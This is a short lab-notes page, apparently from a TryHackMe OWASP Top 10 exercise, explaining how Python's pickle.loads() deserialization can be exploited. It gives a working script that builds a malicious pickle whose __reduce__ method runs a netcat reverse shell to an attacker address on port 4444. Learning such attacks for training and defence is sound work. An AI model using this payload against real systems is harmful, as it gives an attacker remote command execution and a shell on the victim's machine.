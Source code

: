 # Exploiting Python

## Python Pickles

One way to attack Python webapps is to exploit the pickle.loads() operation, which reconstructs objects from an encoded data stream. When an object is reconstructed it is actually fully initialized, which means that things like `object.__reduce__()` are run.

For example, the TryHackMe: OWASP Top 10 room has us use the following code to create a malicious base64 encoded object to feed pickle.loads() (LOCAL_IP gets replaced by your machine’s IP):

```python
import pickle		
import sys		
import base64		

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc LOCAL_IP 4444 > /tmp/f'		

class rce(object):		
    def __reduce__(self):		
        import os		
        return (os.system,(command,))		

print(base64.b64encode(pickle.dumps(rce())))
```

What’s getting encoded here is the `rce` class. Python will call `rce.__reduce__()` to determine how to initialize this class when pickle.loads() deserializes it, and `__reduce__()` wil return the tuple `(os.system, (command,))`, where `command` is basically our standard Metasploit reverse shell. Python then initializes the class by using os.system to call `command`, and there’s our reverse shell!

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
* [pickle — Python object serialization](https://docs.python.org/3/library/pickle.html)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 8, 2021
